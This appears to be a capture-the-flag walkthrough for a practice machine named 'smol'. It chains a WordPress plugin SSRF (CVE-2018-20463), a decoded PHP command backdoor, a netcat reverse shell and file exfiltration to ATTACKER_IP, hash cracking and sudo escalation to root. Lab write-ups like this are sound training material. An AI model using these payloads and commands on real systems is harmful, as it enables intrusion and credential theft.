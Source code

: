 # SMOL CTF Walkthrough (Concise Steps)

## Phase 1: Initial Reconnaissance

**Add Host to Local DNS:**
The target's IP was mapped to its hostname for easier access:

```bash
echo "10.201.30.246 smol.thm" | sudo tee -a /etc/hosts
```

**Network Scan (Nmap):**
A network scan identified two open ports:

* Port 22: OpenSSH 8.2p1
* Port 80: Apache httpd 2.4.41

**Web Enumeration (WPScan):**
A WordPress-specific scan was run to find vulnerabilities:

```bash
wpscan --url http://www.smol.thm
```

This scan identified the `jsmol2wp` plugin, which has a known SSRF vulnerability (CVE-2018-20463).

---

## Phase 2: Gaining Initial Foothold (as www-data)

**Exploit SSRF to Read wp-config.php:**

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=./../wp-config.php
```

**Extract Database Credentials:**

* User: `wpuser`
* Password: `kbLSF2Vop#lw3rjDZ629*Z%G`

**Access WordPress Admin Panel:**
Logged into: `http://www.smol.thm/wp-admin` using the credentials above.

**Discover and Deobfuscate Backdoor:**
A post on the dashboard pointed to a backdoor in the Hello Dolly plugin. The obfuscated code was decoded:

```bash
echo 'CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXNOZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=' | base64 -d
```

This revealed a simple command execution backdoor:

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

**Establish Reverse Shell:**

Start a listener on the attacker machine:

```bash
nc -lvnp 1337
```

Trigger the backdoor via URL:

```
http://www.smol.thm/wp-admin/index.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20ATTACKER_IP%201337%20%3E%2Ftmp%2Ff
```

**Stabilize the Shell:**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Phase 3: User Pivots

### Path to diego

**Access the Database:**

```bash
mysql -u wpuser -p'kbLSF2Vop#lw3rjDZ629*Z%G'
```

**Dump User Hashes:**

```sql
USE wordpress;
SELECT user_login, user_pass FROM wp_users;
```

**Crack the Hash:**

```bash
hashcat -m 400 hashes /usr/share/wordlists/rockyou.txt
```

* Cracked Password: `sandiegocalifornia`

**Switch User and Get Flag:**

```bash
su diego
cat ~/user.txt
```

---

### Path to think

**Find Exposed SSH Key:**
A readable SSH private key found in `/home/think/.ssh/id_rsa`.

**Log in as think:**

```bash
chmod 600 think_id_rsa
ssh -i think_id_rsa think@smol.thm
```

---

### Path to xavi

**Find Encrypted Archive:**
A password-protected file `wordpress.old.zip` was found in `/home/gege`.

**Crack the Archive:**

Transfer the file:

```bash
# On target
nc ATTACKER_IP 4444 < /home/gege/wordpress.old.zip

# On attacker
nc -lvnp 4444 > wordpress.old.zip
```

Extract a crackable hash:

```bash
zip2john wordpress.old.zip > zip_hash
```

Crack the hash:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash
```

* Cracked Password: `hero_gege@hotmail.com`

**Extract New Credentials:**
Inside the archive, a wp-config.php contained:

* User: `xavi`
* Password: `Passwordxavia`

**Switch User:**

```bash
su xavi
```

---

## Phase 4: Final Escalation to Root

**Check Sudo Permissions:**

```bash
sudo -l
```

* Output `(ALL: ALL) ALL` → unrestricted root access

**Escalate to Root:**

```bash
sudo su
```

**Capture the Root Flag:**

```bash
cat /root/root.txt
```
